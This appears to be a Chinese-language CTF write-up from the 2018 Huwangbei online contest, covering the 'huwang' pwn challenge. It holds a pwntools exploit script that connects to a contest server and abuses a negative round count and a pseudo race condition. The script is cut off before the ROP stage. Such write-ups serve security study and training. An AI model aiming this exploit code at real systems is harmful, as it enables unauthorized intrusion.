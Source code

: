 ```yaml
---
title: 2018 护网杯线上赛 Writeup-Waterdrop
date: 2018-10-13 23:46:29
tags:
---
```

WaterDrop 战队2018护网杯线上赛Writeup



# pwn
## huwang

这题666那个选项就是我国赛出的题改了下........说好的保护知识产权呢.......
伪条件竞争，可以把`/tmp/secert`清空，然后进去之后就是`rop`

```python
from pwn import *
debug=0
context.log_level='debug'
context.arch='amd64'
e=ELF('./libc-2.23.so')
if debug:

#p=process('./huwang')

    p=process('./huwang',env={'LD_PRELOAD':'./libc-2.23.so'})
    gdb.attach(p)
else:
    p=remote('117.78.26.12', 32307)
def ru(x):
    return p.recvuntil(x)
def se(x):
    p.send(x)
def sl(x):
    p.sendline(x)


if debug:
    w=process('huwang')
else:
    w=remote('117.78.26.12', 32307)

 
w.recvuntil('command>> ')
w.sendline('666')
w.recvuntil('please input your name')
w.send('1'*0x18)
w.recvuntil('Do you want to guess the secret?')
w.sendline('y')
w.recvuntil('Input how many rounds do you want to encrypt the secret:')
w.sendline('-1')

ru('command>> ')
sl('666')
ru('please input your name')
se('1'*0x19)
ru('Do you want to guess the secret?')
sl('y')
ru('Input how many rounds do you want to encrypt the secret:')
sl('1')
ru('Try to guess the md5 of the secret')
```